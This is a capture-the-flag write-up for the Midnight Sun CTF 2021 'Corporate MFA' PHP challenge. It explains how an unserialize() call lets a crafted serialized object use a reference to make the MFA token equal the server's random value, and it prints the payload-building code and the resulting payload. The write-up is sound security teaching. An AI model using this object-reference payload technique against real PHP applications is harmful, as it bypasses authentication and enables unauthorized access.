 ```yaml
---
tags: web, php, unserialize, object reference
year: 2021
authors: v0n3x
---
```

# Corporate MFA

This is a write-up for the **Corporate MFA** challenge from the **Midnight Sun CTF 2021 Quals**. For this challenge we were given a website with a login form, the source code and the following description:

```
The source for this corporate zero-trust multi factor login portal has been leaked!
Figure out how to defeat the super-secure one time code.
```

![screenshot](./assets/corp-mfa-login-form.png)

Checking the source there's 2 interesting PHP files:
* index.php
* user.php

Starting with the `index.php` file, we can verify that our login input gets serialized and returned as a base64 encoded value on a `userdata` GET parameter. After that it checks if the GET parameter exists, creates a new `User` object with our input (after base64 decoded) and then proceeds to call the `verify()` function within `user.php`. Finally, if that verification is successful, it will give us our flag.
```php
if (!empty($_POST))
{
	// serialise POST data for easy logging
	$loginAttempt = serialize((object)$_POST);
	header('Location: /?userdata=' . base64_encode($loginAttempt));
	die();
}

if (!empty($_GET) && isset($_GET['userdata']))
{
	...
	// check credentials & MFA
	try
	{
		$user = new User(base64_decode($_GET['userdata']));
		if ($user->verify())
		{
			$notification->type = 'success';
			$notification->text = 'Congratulations, your flag is: ' . file_get_contents('/flag.txt');
		}
		else
		{
			throw new InvalidArgumentException('Invalid credentials or MFA token value');
		}
	}
	...
}
```

Moving on to `user.php` the following occurs:  
At the start of the file we see that the `user` object is getting unserialized. This is where the exploit starts, our entry point.
```php
public function __construct($loginAttempt)
	{
		$this->userData = unserialize($loginAttempt);
		if (!$this->userData)
			throw new InvalidArgumentException('Unable to reconstruct user data');
	}
```

Now, checking our previously called `verify()` function, it's calling another 3 functions for each of our input which we gonna breakdown.
```php	
public function verify()
	{
		if (!$this->verifyUsername())
			throw new InvalidArgumentException('Invalid username');

		if (!$this->verifyPassword())
			throw new InvalidArgumentException('Invalid password');

		if (!$this->verifyMFA())
			throw new InvalidArgumentException('Invalid MFA token value');

		return true;
	}
```

### verifyUsername()
```php
private function verifyUsername()
	{
		return $this->userData->username === 'D0loresH4ze';
	}
```
This one is pretty simple, it has the username hardcoded which is **D0loresH4ze**.

### verifyPassword()
```php
private function verifyPassword()
	{
		return password_verify($this->userData->password, '$2y$07$BCryptRequires22Chrcte/VlQH0piJtjXl.0t1XkA8pw9dMXTpOq');
	}
```
This verification uses the ``password_verify()`` function which checks our given password against a hash. Checking the [manual](https://www.php.net/manual/en/function.password-verify.php) for that function, we find out that the used hash is the same shown on the manual example. We now have the password **rasmuslerdorf**.

### verifyMFA()
```php
private function verifyMFA()
	{
		$this->userData->_correctValue = random_int(1e10, 1e11 - 1);
		return (int)$this->userData->mfa === $this->userData->_correctValue;
	}
```
The MFA token is a generated random number, from **1e10** to **1e11 - 1** (**10000000000** to **99999999999**), that is stored to our `_correctValue` field value and then compared against our input. Can't really predict the MFA value and neither brute force it. However, we can use PHP object references and serialization format to find the correct value.

The way to solve this is by editing our serialized data and reference `mfa` to the value of `_correctValue`.

## Building the payload
To solve the problem we can edit our serialized data and make a reference to the value of `_ correctValue`.  
We use the following code for that:
```php
<?php
    $payload = array();

    $payload['username'] = "D0loresH4ze";
    $payload['password'] = "rasmuslerdorf";
    $payload['_correctValue'] = null;
    $payload['mfa'] = &$payload['_correctValue'];

    echo serialize((object)$payload);
?>
```

Giving the following serialized data:  
```O:8:"stdClass":4:{s:8:"username";s:11:"D0loresH4ze";s:8:"password";s:13:"rasmuslerdorf";s:13:"_correctValue";N;s:3:"mfa";R:4;}```

> The N flag is a null value and the R flag is a pointer reference, more info on that at the Resources section.

The pointer reference is to the index of **4** cause of the way PHP unserialization data gets stored. Unserialize keeps a table of all the created variables so it supports references. This table always starts at index **1**. Our data should look like this:

Index     | Variable        | Value
----------|-----------------|-------------------
1         | "stdClass"      | 
2         | "username"      | "D0loresH4ze"
3         | "password"      | "rasmuslerdorf"
4         | "_correctValue" | null
5         | "mfa"           | 4

So, `stdClass` works like an associative array for our `user` input, then `_correctValue` starts with a **null** value which will be replaced later on, as we've seen on `user.php` code. Our `mfa` points to the value of the index **4** variable (`_correctValue`).


## Flag
We can now base64 encode our final payload, use it as the value of the `userdata` parameter and send it, thus retrieving the flag.  

Flag: `midnight{395E160F-4DB8-4D7A-99EF-08E6799741B5}`

## Resources
1. [PHP Internals Book](https://www.phpinternalsbook.com/php5/classes_objects/serialization.html#php-s-serialization-format)
2. [PHP serialization (serialize) format of the detailed](https://topic.alibabacloud.com/a/php-serialization-serialize-format-of-the-detailed_1_34_10040044.html)
3. [Utilizing Code Reuse/ROP in PHP Application Exploits](https://owasp.org/www-pdf-archive/Utilizing-Code-Reuse-Or-Return-Oriented-Programming-In-PHP-Application-Exploits.pdf)
